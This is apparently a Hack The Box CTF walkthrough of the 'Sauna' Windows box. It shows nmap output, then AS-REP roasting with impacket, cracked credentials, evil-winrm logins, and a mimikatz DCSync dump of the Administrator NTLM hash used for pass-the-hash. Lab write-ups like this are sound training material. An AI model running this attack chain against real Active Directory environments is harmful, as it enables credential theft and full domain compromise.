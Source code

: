```yaml
---
title: "Hack The Box - Sauna"
tags: [windows,easy,kerberoasting,dcsync attack, bloodhound]
categories: HackTheBox-Active-Directory
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sauna%20Box%2030605ca311aa474389359e585ddf6bd6/Untitled.png](Sauna%20Box%2030605ca311aa474389359e585ddf6bd6/Untitled.png)

# **Sauna Box Walkthrough**

**NMAP:**

```
Nmap scan report for 10.10.10.175
Host is up (0.19s latency).
Not shown: 988 filtered ports
PORT STATE SERVICE VERSION
53/tcp open domain?
| fingerprint-strings:
| DNSVersionBindReqTCP:
| version
|_ bind
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2020-07-18 11:59:22Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
```

---

## Enumerating and Kerberoasting

=> On the website we find the following employees names :

[https://camo.githubusercontent.com/85011b15d9cd02aab69782b2bb45f58a0cb5ac35/68747470733a2f2f692e696d6775722e636f6d2f543232695477532e706e67](https://camo.githubusercontent.com/85011b15d9cd02aab69782b2bb45f58a0cb5ac35/68747470733a2f2f692e696d6775722e636f6d2f543232695477532e706e67)

=> Lets make an usernames file using this information :

```
Fsmith
Scoins
Hbear
Btaylor
Sdriver
Skerb

```

=> Now we will run kerbrute to find valid users and then try kerberoasting it

[https://camo.githubusercontent.com/9ac8939cbacac8c00adaeb8851e0899d4241a38b/68747470733a2f2f692e696d6775722e636f6d2f487673306a55422e706e67](https://camo.githubusercontent.com/9ac8939cbacac8c00adaeb8851e0899d4241a38b/68747470733a2f2f692e696d6775722e636f6d2f487673306a55422e706e67)

- Kerberoasting

    Download : [https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py)

    **python3 GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile User.txt -outputfile hash.txt -dc-ip 10.10.10.175**

[https://camo.githubusercontent.com/c25012b543ddd45f7c9d05b4b5770256e20e44b4/68747470733a2f2f692e696d6775722e636f6d2f344a4e787164482e706e67](https://camo.githubusercontent.com/c25012b543ddd45f7c9d05b4b5770256e20e44b4/68747470733a2f2f692e696d6775722e636f6d2f344a4e787164482e706e67)

Cracking it we get the password : **Thestrokes23**

=> Lets login with evil-winrm.

**evil-winrm -u fsmith -p Thestrokes23 -i 10.10.10.175**

---

## Privilege Escalation [ DCSync Attack ]

[https://camo.githubusercontent.com/e523e0c0ae61ddf0df430f4d9533d3a4d40f1d18/68747470733a2f2f692e696d6775722e636f6d2f7a6962424244662e706e67](https://camo.githubusercontent.com/e523e0c0ae61ddf0df430f4d9533d3a4d40f1d18/68747470733a2f2f692e696d6775722e636f6d2f7a6962424244662e706e67)

=> Lets switch to the 2nd user we found.

**evil-winrm -u svc_loanmgr -p Moneymakestheworldgoround! -i 10.10.10.175**

=> Running bloodhound we find that our user has GetChangesAll privileges.

[https://camo.githubusercontent.com/c1d7aba200a72ef0b409a892de8d66701658f93f/68747470733a2f2f692e696d6775722e636f6d2f724e6d744174612e706e67](https://camo.githubusercontent.com/c1d7aba200a72ef0b409a892de8d66701658f93f/68747470733a2f2f692e696d6775722e636f6d2f724e6d744174612e706e67)

=> Lets upload mimikatz and perform dcsync attack : [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)

**./mimikatz.exe "lsadump::dcsync /user:Administrator" "exit"**

=> We get the Administrator NTLM Hash which we can use to authenticate :

[https://camo.githubusercontent.com/cd7b49123826d15df3905daf4fb86113d815e44f/68747470733a2f2f692e696d6775722e636f6d2f554b6a684866552e706e67](https://camo.githubusercontent.com/cd7b49123826d15df3905daf4fb86113d815e44f/68747470733a2f2f692e696d6775722e636f6d2f554b6a684866552e706e67)

**NTLM:d9485863c1e9e05851aa40cbb4ab9dff**

=> Lets switch to Administrator :

**evil-winrm -u Administrator -H d9485863c1e9e05851aa40cbb4ab9dff -i 10.10.10.175**

[https://camo.githubusercontent.com/5e284e73819940089aeddc945a9dfe5d78170705/68747470733a2f2f692e696d6775722e636f6d2f4b464d434149572e706e67](https://camo.githubusercontent.com/5e284e73819940089aeddc945a9dfe5d78170705/68747470733a2f2f692e696d6775722e636f6d2f4b464d434149572e706e67)
